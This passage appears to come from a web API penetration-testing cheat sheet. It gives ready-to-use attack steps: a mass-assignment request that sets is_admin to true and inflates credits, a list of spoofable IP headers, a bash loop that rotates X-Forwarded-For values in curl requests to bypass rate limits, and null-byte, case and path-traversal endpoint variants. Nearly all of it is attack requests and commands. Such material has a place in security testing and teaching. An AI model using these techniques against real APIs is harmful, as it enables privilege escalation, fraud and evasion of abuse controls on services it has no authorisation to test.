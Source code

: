 ### Mass Assignment

```bash
# Find object properties
GET /api/users/1
{
  "id": 1,
  "username": "user",
  "email": "user@test.com",
  "is_admin": false,
  "credits": 100
}

# Exploit
PUT /api/users/1
{
  "username": "user",
  "email": "user@test.com",
  "is_admin": true,   # Not supposed to be modifiable
  "credits": 999999   # Not supposed to be modifiable
}

# Test all parameters
# Use parameter name lists from documentation/source code
```

### API Rate Limiting Bypass

```bash
# Headers to manipulate
X-Forwarded-For: 1.2.3.4
X-Real-IP: 1.2.3.4
X-Originating-IP: 1.2.3.4
X-Remote-IP: 1.2.3.4
X-Client-IP: 1.2.3.4
True-Client-IP: 1.2.3.4

# Rotate headers
# Script to rotate IPs
for i in {1..255}; do
    curl https://target.com/api/endpoint -H "X-Forwarded-For: 10.0.0.$i"
done

# Null byte
# Add %00 to endpoints
/api/endpoint%00

# Case manipulation
/api/endpoint
/API/ENDPOINT
/Api/Endpoint

# Path traversal
/api/v1/users -> /api/v1/../v1/users

# Add random parameter
/api/endpoint?random=1
/api/endpoint?random=2
```
